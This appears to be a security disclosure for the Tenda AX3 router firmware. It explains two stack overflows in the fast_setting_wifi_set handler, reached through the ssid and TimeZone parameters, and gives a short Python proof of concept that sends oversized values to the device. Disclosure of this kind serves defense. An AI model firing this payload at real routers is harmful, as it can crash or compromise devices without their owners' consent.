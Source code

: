## Tenda Router AX3 Vulnerability

There is a vulnerability lies in page goform/fast_setting_wifi_set,which influences the lastest version of Tenda Router AX3([V16.03.12.10_CN](https://www.tenda.com.cn/download/detail-3238.html)). 

## Description

Vulnerability function  form_fast_setting_wifi_set

![image-20220115020633570](./1.png) 

The v5 variable is obtained directly from the http request parameter ssid. Then v5 will be assigned to v6.

This function uses strcpy to copy the variable v6 to the stack variable par without any sercuity check.

Attacker can construct a long ssid parameter in the http request,which causes stack overflow.

![image-20220115021518187](2.png)

 

The v22 variable is directly retrieved from the http request parameter TimeZone.

Then v22 will be splice to stack by function sscanf without any security check,which causes stack overflow.

Combining the above two vulnerabilities can cause arbitrary code execution.

## POC

```python
import requests
from pwn import *

url = "http://192.168.0.1/goform/fast_setting_wifi_set"
ssid = "a" * 0x1000
timeZone = "b"*0x1000
r = requests.post(url, data={'ssid': ssid, 'timeZone': timeZone})
print(r.content)
```

## Timeline

- 2021-12-31 report to CNVD&CVE